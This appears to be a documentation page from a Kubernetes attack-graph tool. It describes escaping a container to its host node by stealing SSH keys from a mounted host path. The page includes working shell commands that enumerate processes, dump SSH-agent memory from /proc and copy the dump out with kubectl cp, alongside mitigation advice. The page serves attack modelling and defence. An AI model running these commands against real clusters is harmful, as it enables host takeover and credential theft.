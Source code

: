 # EXPLOIT_HOST_READ

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

If a sensitive host directory is exposed to a container, even as readonly, it can enable an escape to the host. The only example currently modelled is exposing a host volume that contains SSH keys (and assumes that SSH is enabled on the node for SRE activities). In this scenario an attacker can steal the SSH keys from the mounted volume, then SSH directly into the node.

## Prerequisites

Execution within a container with a sensitive host path mounted as readonly.

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). Specifically:

+ `/etc`, `/root`, `/home`, `/proc` for SSH key material. This enables accessing the node via SSH (which is typically enabled for management functionality)

## Exploitation

Consider the case of an exposed `/proc` mount. We can attempt to steal SSH keys directly from the process memory of the SSH agent. First identify the target process by dumping all process info via:

```bash
find /proc -maxdepth 2 -wholename '/proc/[0-9]*/status'  | xargs cat > process-list.txt
```

Once the target PID has been retrieved, dump the process memory by reading `/proc/${PID}/mem`:

```bash
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

then exfiltrate the memory dump to an attacker machine using `kubectl cp` (or any other mechanism):

```bash
kubectl cp ${NAMESPACE}/${PODNAME}:/mem.bin ./mem.bin
```

Finally extract any SSH keys offline from memory using the [ssh-grab](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py) python script.

### Monitoring

+ Monitor for access to sensitive host files (e.g SSH keys) originating from container processes

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

+ [ExploitHostRead](../../pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [Stealing SSH Keys From Memory](https://www.netspi.com/blog/technical/network-penetration-testing/stealing-unencrypted-ssh-agent-keys-from-memory/)
+ [Dump Linux Process Memory to File](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file)

